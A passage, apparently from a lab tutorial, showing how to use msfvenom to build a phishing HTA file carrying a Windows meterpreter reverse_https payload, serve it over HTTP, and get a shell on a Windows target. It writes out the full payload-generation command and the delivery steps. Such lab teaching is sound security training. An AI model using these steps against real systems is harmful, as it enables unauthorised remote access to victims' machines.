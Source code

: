Next, use `msfvenom` to create the file:

```
msfvenom -a x86 -platform windows -p windows/meterpreter/reverse_https RHOST=<attack ip> LPORT=443 -f hta-psh > phish.hta
```

This creates the HTA file and saves it as `phish.hta`.

Now start a web server in that directory on port 8000 with `python -m SimpleHTTPServer`

With the Windows host, browse to port 8000 on the Kali machine, download `phish.hta`, and run it:

![](images/Kali%20Linux/image044.png)<br><br>

The PowerShell payload is executed and you now have a shell running as the user on the target machine:

![](images/Kali%20Linux/image045.png)<br><br>

Verify that this meterpreter agent is also running in a PowerShell process:

![](images/Kali%20Linux/image047.png)<br><br>
